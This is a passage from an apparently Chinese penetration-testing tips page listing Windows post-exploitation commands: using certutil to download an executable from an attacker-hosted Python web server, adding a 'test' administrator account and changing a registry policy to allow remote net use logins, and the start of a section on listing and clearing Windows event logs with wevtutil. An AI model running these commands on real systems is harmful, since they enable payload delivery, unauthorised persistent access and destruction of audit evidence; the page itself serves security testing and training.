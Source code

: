 Kali:

```
python -m SimpleHTTPServer 80
```

Windows:

```
certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete
```
参考： 

[《渗透测试中的certutil.exe》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)

---

### Tips 3. 配置工作组计算机,使其支持net use远程连接

添加用户：

```
net user test test /add
net localgroup administrators test /add
```

修改注册表，使其支持远程连接：

```
reg add hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1
```

net use远程连接：

```
net use \\192.168.1.195 test /u:test
```

---

### Tips 4. Windows日志清除

获取日志分类列表：

```
wevtutil el >1.txt
```

获取单个日志类别的统计信息：

eg.

```
wevtutil gli "windows powershell"
```

回显：

```
creationTime: 2016-11-28T06:01:37.986Z
lastAccessTime: 2016-11-28T06:01:37.986Z
lastWriteTime: 2017-08-08T08:01:20.979Z
fileSize: 1118208
attributes: 32
numberOfLogRecords: 1228
oldestRecordNumber: 1
```
